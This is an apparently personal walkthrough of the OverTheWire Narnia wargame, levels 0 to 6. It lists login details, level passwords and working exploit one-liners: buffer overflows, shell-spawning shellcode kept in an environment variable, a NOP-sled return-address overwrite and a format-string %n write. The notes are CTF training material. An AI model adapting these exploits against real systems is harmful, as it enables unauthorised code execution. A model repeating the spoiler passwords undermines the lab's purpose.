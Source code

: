 NARNIA - OTW WARGAME:

passwords for next level is at /etc/narnia_pass
problems and source code in /narnia 	:cd /narnia
ssh narnia0@narnia.labs.overthewire.org -p 2226
for peda integration: echo "source /usr/local/peda/peda.py">>~/.gdbinit

narnia0:

	pass=narnia0
	Just a simple overflow and overwrite val with 0xdeadbeef
	(python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat)|./narnia0

	gives shell and password for next level is efeidiedae

narnia1:
	
	pass=efeidiedae
	just a simple setting up environment variable EGG and it gets executed0 no
	export EGG=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
	cat /etc/narnia_pass/narnia2 gives the password for this level 

narnia2:

	pass=nairiepecu
	just a buffer overflow with aslr and nx disabled. so did shellcode injection and executed it.
	using gdb found that offset to eip is 140, then the stack address for buffer is 0xffffd610. Then filled with nop sled of length 60
	and then shellcode and "A" and overwrote eip with 0xffffd630 which is 0xffffd610 + 32 roughly the middle of nop sled.
	cat /etc/narnia_pass/narnia3 gives password for this level

narnia3:
	
	pass=vaequeezee
	#took screenshot


narnia4:
	
	pass= thaenohtai
	./narnia4 $(python -c 'print "\x90"*240+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*7+"\x48\xd8\xff\xff"')

narnia5:
	
	pass=faimahchiy
	./narnia5 $(python -c 'print "\x2c\xd7\xff\xff%496x%5$n"')

narnia6:

	pass= neezocaeng
	



	
	